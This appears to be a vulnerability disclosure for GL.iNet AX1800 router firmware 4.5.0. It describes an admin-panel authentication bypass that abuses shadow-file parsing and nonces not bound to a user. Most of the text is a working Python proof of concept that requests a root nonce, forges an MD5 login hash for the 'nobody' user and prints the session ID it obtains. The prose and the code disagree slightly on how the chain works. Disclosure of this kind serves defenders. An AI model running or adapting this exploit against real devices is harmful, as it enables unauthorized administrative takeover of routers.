


Vendor: GL.iNet
Product:ax1800
Version: 4.5.0
Firmware: openwrt-ax1800-4.5.0-0123-1706012955.img

Download Link: https://dl.gl-inet.cn/router/

Based on the provided information, the GL.iNet AXT1800 (model ax1800) device running firmware version 4.5.0 contains an authentication bypass vulnerability in the admin panel due to two critical logic flaws.
The vulnerability (CWE-863: Incorrect Authorization) arises from the combination of improper /etc/shadowfile parsing and a lack of user context binding for session nonces. 
First, the authentication logic fails to properly reject Unix users with a disabled password state (e.g., *or x) in the /etc/shadowfile due to an overly restrictive regular expression. 
Second, the cryptographic nonce generated during authentication is not uniquely tied to the user's identity, allowing a nonce obtained by one user to be reused by another.
An attacker can chain these flaws: authenticate as a disabled system user to obtain a valid nonce, then reuse that nonce to impersonate the admin user, gaining unauthorized administrative access.

the vulnerability by sending a carefully constructed HTTP request

```
import requests
import hashlib
import json
import sys

# 目标 IP
TARGET_IP = "192.168.2.10"
URL = f"https://{TARGET_IP}/rpc"

# 忽略 SSL 证书警告
requests.packages.urllib3.disable_warnings()

def exploit():
    print(f"[*] Targeting: {TARGET_IP}")
    
    # 1. 发送 Challenge 请求 (使用 root 获取 nonce)
    challenge_payload = {
        "jsonrpc": "2.0",
        "id": 1,
        "method": "challenge",
        "params": {"username": "root"}
    }
    
    try:
        print("[*] Sending challenge request...")
        r1 = requests.post(URL, json=challenge_payload, verify=False, timeout=5)
        resp1 = r1.json()
        
        if "result" not in resp1:
            print("[-] Failed to get challenge response.")
            print(resp1)
            return

        nonce = resp1["result"]["nonce"]
        print(f"[+] Got Nonce: {nonce}")
        
    except Exception as e:
        print(f"[-] Error during challenge: {e}")
        return

    # 2. 构造 Payload (针对 nobody 用户)
    # 漏洞点：nobody 密码在 shadow 中是 '*'，我们直接用 '*' 构造哈希
    username = "nobody"
    password_in_shadow = "*" 
    
    # Hash = MD5(username:password:nonce)
    raw_str = f"{username}:{password_in_shadow}:{nonce}"
    hash_val = hashlib.md5(raw_str.encode()).hexdigest()
    
    print(f"[*] Calculated Hash: {hash_val}")

    # 3. 发送 Login 请求
    login_payload = {
        "jsonrpc": "2.0",
        "id": 2,
        "method": "login",
        "params": {
            "username": username,
            "hash": hash_val
        }
    }
    
    try:
        print("[*] Sending login request...")
        r2 = requests.post(URL, json=login_payload, verify=False, timeout=5)
        resp2 = r2.json()
        
        if "result" in resp2 and "sid" in resp2["result"]:
            sid = resp2["result"]["sid"]
            print(f"\n[SUCCESS] Authentication Bypassed!")
            print(f"[+] SID: {sid}")
            print(f"[+] User: {resp2['result']['username']}")
        else:
            print("\n[-] Login Failed.")
            print(resp2)
            
    except Exception as e:
        print(f"[-] Error during login: {e}")

if __name__ == "__main__":
    exploit()
```
The exploitation is shown below.

